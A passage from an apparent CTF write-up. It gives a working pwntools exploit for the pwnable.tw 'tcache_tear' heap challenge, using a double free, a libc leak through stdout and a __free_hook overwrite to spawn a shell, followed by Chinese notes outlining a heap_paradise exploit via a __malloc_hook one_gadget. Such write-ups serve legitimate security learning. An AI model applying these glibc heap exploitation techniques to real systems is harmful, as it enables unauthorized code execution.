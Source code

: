 ## exp
```python
from pwn import *
def set_name(name="A"*0x20):
	p.sendafter("Name:",name)
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(c="A"*8,size=0x88):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",c)
def free():
	cmd(2)
def show():
	cmd(3)
#p=process("./tcache_tear")
p=remote("chall.pwnable.tw",10207)
set_name()
add("B",0x88)
free()
free()
add(p64(0x000000000602020),0x88)
add(p64(0x000000000602020),0x88)
add('\x60',0x88)
context.log_level='debug'
add(p64(0xfbad1800)+p64(0)*3+"\x00",0x88)
p.read(8)
base=u64(p.read(8))-(0x7ffff7dd18b0-0x7ffff79e4000)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address=base
add('A',0x68)
free()
free()
add(p64(libc.symbols['__free_hook']),0x68)
add(p64(libc.symbols['__free_hook']),0x68)
add(p64(libc.symbols['system']),0x68)
add("/bin/sh",0x38)
free()
log.warning(hex(base))
#gdb.attach(p,'b *0x7ffff7aa1290')
p.interactive("nier>>")
```

# heap_paradise

全保护，漏洞点也十分明显free之后没有去清空指针.
还发现free的时候的index类型不规范导致可以填负数free任意地址但是没用上

主要的限制是add的时候不能malloc 大于0x78的chunk 导致无法使用unsorted bin获得libc
但是因为可以doublefree 所以还是很简单的
思路如下
* double free 做 overlap
* 修改chunk_head > 0x78
* free to get unsorted bin
* 利用 overlap(用over lap 比doubel free 节省1次malloc)
* partial write 盖掉stdout的flags和几个ptr leak libc(此处有1/16的概率)
* 把&__malloc_hook-35链进fast bin
* 改写__malloc_hook 为one_gadget


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert